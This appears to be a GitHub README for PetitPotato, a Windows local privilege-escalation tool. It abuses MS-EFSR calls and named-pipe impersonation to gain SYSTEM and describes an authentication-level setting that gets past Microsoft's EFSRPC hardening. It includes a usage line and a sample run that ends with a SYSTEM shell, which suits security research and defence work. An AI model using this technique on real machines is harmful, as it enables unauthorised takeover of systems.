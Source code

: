 # PetitPotato

Local privilege escalation via PetitPotam (Abusing impersonate privileges).

## Description

[PetitPotam](https://github.com/topotam/PetitPotam) uses MS-EFSR (Encrypting File System Remote), a protocol used to perform maintenance and management operations on encrypted data stored remotely and accessed over a network. There are a series of APIs similar to `EfsRpcOpenFileRaw` in MS-EFSR. The syntax of the `EfsRpcOpenFileRaw` API is shown below.

```c++
long EfsRpcOpenFileRaw(
   [in] handle_t binding_h,
   [out] PEXIMPORT_CONTEXT_HANDLE* hContext,
   [in, string] wchar_t* FileName,
   [in] long Flags
 );
```

Such APIs can specify a UNC path via the FileName parameter to open encrypted objects on the server for backup or restore. When the path in the format `\\IP\C$` is specified, the lsass.exe service will access `\\IP\pipe\srvsvc` with `NT AUTHORITY SYSTEM` account privileges.

If we can call the `EfsRpcOpenFileRaw` API to force the local computer to connect to the malicious named pipe we created, then we can impersonate the named pipe client process and eventually gain the SYSTEKM privilege.

But old PetitPotam does not work on newer versions of Windows due to the limitations of related patches. However, setting AuthnLevel to `RPC_C_AUTHN_LEVEL_PKT_PRIVACY` via `RpcBindingSetAuthInfoW` before calling EFS works on latest systems.

> In December 2021, Microsoft released a patch for a different EFSRPC vulnerability: CVE-2021-43217. As part of the remediation for that issue, Microsoft implemented some hardening measures on EFSRPC communication. In particular, EFSRPC clients would need to use RPC_C_AUTHN_LEVEL_PKT_PRIVACY when using EFSRPC. If the client fails to do so, then the client is rejected and a Windows application event is generated.

At present, the project can perfectly elevate to SYSTEM on Windows 21H2 10.0.20348.1547.

## Usage

```powershell
PetitPotato.exe [EfsID] [Command]
```

- `EfsID`: MS-EFSR API number to use
- `Command`: command to execute

## Example

```cmd
C:\Users\Administrator\Desktop>PetitPotato.exe 3 cmd

[+] Malicious named pipe running on \\.\pipe\petit\pipe\srvsvc.
[+] Invoking EfsRpcQueryUsersOnFile with target path: \\localhost/pipe/petit\C$\wh0nqs.txt.
[+] The connection is successful.
[+] ImpersonateNamedPipeClient OK.
[+] OpenThreadToken OK.
[+] DuplicateTokenEx OK.
[+] CreateProcessAsUser OK.
Microsoft Windows [Version 10.0.20348.1547]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>
```

![image-20221030165055659](/images/image-20221030165155659.png)

## Link

- https://github.com/topotam/PetitPotam
- https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/
- https://itm4n.github.io/from-rpcview-to-petitpotam/
- https://github.com/zcgonvh/EfsPotato/pull/5

